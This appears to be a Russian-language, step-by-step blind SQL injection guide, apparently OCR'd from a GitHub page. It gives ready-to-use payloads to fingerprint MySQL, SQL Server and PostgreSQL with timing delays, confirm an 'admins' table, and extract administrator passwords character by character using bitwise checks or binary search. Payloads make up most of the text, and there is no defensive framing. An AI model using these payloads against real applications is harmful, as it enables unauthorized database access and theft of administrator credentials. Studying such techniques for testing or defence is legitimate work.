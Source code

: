 ###### **Шаг 1: Быстрая разведка (1-2 минуты)**
```sql
-- Определение СУБД
' AND SLEEP(5)--      -- MySQL?
'; WAITFOR DELAY '0:0:5'--  -- SQL Server?
'; SELECT PG_SLEEP(5)--     -- PostgreSQL?

-- Проверка существования таблицы admins
' AND (SELECT COUNT(*) FROM admins)>=1--
```

###### **Шаг 2: Использование битовых операций вместо substring (3-4 минуты)**

```sql
-- Извлечение данных по битам (гораздо быстрее!)
' AND (ASCII(SUBSTRING(password,1,1)) & 1) = 1--   -- Проверяем бит 0 (1)
' AND (ASCII(SUBSTRING(password,1,1)) & 2) = 2--   -- Проверяем бит 1 (2)  
' AND (ASCII(SUBSTRING(password,1,1)) & 4) = 4--   -- Проверяем бит 2 (4)
' AND (ASCII(SUBSTRING(password,1,1)) & 8) = 8--   -- Проверяем бит 3 (8)
' AND (ASCII(SUBSTRING(password,1,1)) & 16) = 16-- -- Проверяем бит 4 (16)
' AND (ASCII(SUBSTRING(password,1,1)) & 32) = 32-- -- Проверяем бит 5 (32)
' AND (ASCII(SUBSTRING(password,1,1)) & 64) = 64-- -- Проверяем бит 6 (64)
' AND (ASCII(SUBSTRING(password,1,1)) & 128) = 128-- -- Проверяем бит 7 (128)
-- и т.д. для каждого бита (8 запросов на символ вместо 256)
```

> **Классический substring (медленно): 256 запросов на символ;**
> **Битовые операции (быстро). Как работает:**
> >- Каждый символ кодируется 8 битами
> >- Оператор `&` (AND) проверяет конкретный бит
> >- По результатам 8 запросов восстанавливаем ASCII-код
> >- **Результат:** 8 запросов на символ.

**Пример для символа 'A' (ASCII 65):**
```txt
65 в двоичном: 01000001
Бит 0: 65 & 1 = 1    ✓
Бит 1: 65 & 2 = 0    ✗  
Бит 2: 65 & 4 = 0    ✗
Бит 3: 65 & 8 = 0    ✗
Бит 4: 65 & 16 = 0   ✗
Бит 5: 65 & 32 = 0   ✗
Бит 6: 65 & 64 = 64  ✓
Бит 7: 65 & 128 = 0  ✗
```

###### **Шаг 2 (альтернатива): Использование бинарного поиска (2-3 минуты)**

```sql
-- Бинарный поиск по ASCII коду
' AND (ASCII(SUBSTRING((SELECT password FROM admins LIMIT 1),1,1)) > 128)--
' AND (ASCII(SUBSTRING((SELECT password FROM admins LIMIT 1),1,1)) > 64)--
-- Каждый запрос делит пространство пополам (8 запросов на символ)
```
